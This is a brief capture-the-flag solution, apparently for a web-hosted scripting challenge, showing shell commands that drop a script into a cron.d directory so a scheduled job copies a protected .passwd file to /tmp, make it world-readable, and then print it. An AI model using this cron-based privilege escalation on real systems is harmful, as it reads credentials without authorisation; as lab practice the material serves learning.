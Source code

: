 1) create the script for show password
cat <<EOF > cron.d/script.sh

#!/bin/bash
/bin/cat /challenge/app-script/ch4/.passwd > /tmp/passwd
chmod 777 /tmp/passwd

EOF

chmod o+rx cron.d/script.sh

2) wait 1 minute and show password

cat /tmp/passwd
